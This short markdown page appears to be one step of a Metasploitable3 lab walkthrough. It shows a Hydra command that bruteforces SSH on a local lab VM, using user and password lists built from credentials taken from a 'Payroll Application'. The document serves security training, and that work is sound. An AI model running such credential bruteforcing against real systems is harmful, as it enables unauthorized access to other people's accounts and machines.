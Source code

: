 # SSH Bruteforce with Hydra

1. After extracting credentials from the Payroll Application, use the credentials to run a bruteforce attack.

```
hydra -L user.txt -P pass.txt ssh://127.0.0.1:2222
```
![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/ssh-bruteforce/SSH_Bruteforce.png "Result 1")

